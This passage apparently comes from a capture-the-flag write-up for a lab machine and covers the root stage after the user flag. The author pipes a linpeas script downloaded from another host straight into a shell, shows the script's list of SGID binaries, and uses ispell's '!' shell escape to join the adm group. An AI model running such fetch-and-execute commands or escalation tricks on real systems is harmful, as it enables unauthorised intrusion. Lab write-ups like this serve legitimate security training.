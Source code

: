 And that's the user flag!
<br/>
<br/>

# Root
The first thing I did was use `curl 10.13.1.225:9090/linpeas.sh | sh | tee peas.txt` to transfer over `linpeas.sh` and execute it with `sh`, then fork the outputs to `peas.txt` for further examination. The privesc script discovered a strange `SGID` binary that I had never seen before, `/usr/bin/ispell`.

```
[+] SGID                                           
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands                                                                                                           
/usr/bin/chage                                     
/usr/bin/ssh-agent                                 
/usr/bin/mutt_dotlock                              
/usr/bin/lockfile                                  
/usr/bin/mlocate                                   
/usr/bin/bsd-write                                 
/usr/bin/at             --->    RTru64_UNIX_4.0g(CVE-2002-1614)                                                                                                                                                
/usr/bin/procmail                                  
/usr/bin/expiry                                    
/usr/bin/dotlockfile                               
/usr/bin/wall                                      
/usr/bin/crontab                                   
/usr/bin/ispell                                    
/sbin/unix_chkpwd
```

After doing some googling, I found that `ispell` is a simple spell-checking utility. It also a shell escape using `!`, in a similar vein to `vim`'s shell escape. I execute the shell escape and am now part of the `adm` group.  


![Screenshot of ispell Shell Escape](/assets/media/tempusfugitdurius/ispell.png)
